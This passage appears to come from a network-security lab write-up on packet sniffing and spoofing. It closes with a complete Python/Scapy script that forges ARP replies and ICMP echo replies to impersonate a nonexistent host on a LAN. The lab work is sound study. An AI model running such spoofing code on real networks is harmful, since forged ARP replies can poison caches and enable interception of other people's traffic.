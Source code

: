 I also noticed that after sniffing the packet and spoofing it, if I do not use the original data payload that comes with the sniffed packet, the ping program does not get to see the reply I send. However, by spoofing the packet and using the raw packet data payload that comes with the sniffed packet, the ping program sees the reply.
___
##### Extra Findings
After doing some extra digging and testing, I discovered that when `host B` needs to send `ICMP echo requests` to any host on the same LAN, it sends `ARP Requests` to every host on the LAN. This is so because it needs to know the `MAC address` of the destination before sending. This can be seen when observing traffic from Wireshark.

Initially, when I ran the command, I noticed the `ARP requests` in Wireshark, but there was no corresponding `ARP reply` because the host is non-existent/offline. To fix this, I modified my Python code to sniff for `ARP requests` and spoof `ARP replies`. This ended up being the solution as now pinging `10.9.0.99`, my program responds to the request and the reply can be observed from `host B`.

Below is the modified program

```python
#!/usr/bin/env python3
import sys
from scapy.all import *

def main():
    if len(sys.argv) != 2:
        sys.exit("Usage: ./sniff_spoof.py <INTERFACE>")
    
    iface_ = sys.argv[1]
    print(f'listening for packets on {iface_}')
    sniff(iface = iface_, filter = 'icmp || arp', prn = sniff_)
    
def sniff_(pkt):
    try:
        # Handle ARP packets
        if pkt[ARP].op == 1:
            arp = ARP(op = 2, hwsrc = pkt[Ether].dst, psrc = pkt[ARP].pdst, pdst = pkt[ARP].psrc)
            send(arp, verbose=0)
            print(pkt.sprintf("spoofed ARP Reply--> %ARP.pdst% -> %ARP.psrc%"))
        elif pkt[ARP].op == 2:
            print(pkt.sprintf("non-spoofed ARP Reply--> %ARP.psrc% -> %ARP.pdst%"))
    except IndexError:
        # Handle ICMP packets
        if pkt[ICMP].type == 8:
            ip = IP(src = pkt[IP].dst, dst = pkt[IP].src, ihl = pkt[IP].ihl)
            icmp = ICMP(type = 0, id = pkt[ICMP].id, seq = pkt[ICMP].seq)
            data = pkt[Raw].load
            send(ip/icmp/data, verbose=0)
        elif pkt[ICMP].type == 0:
            print(pkt.sprintf("ICMP Reply --> %IP.src% -> %IP.dst%"))
        
        
if __name__ == '__main__':
    main()        
```
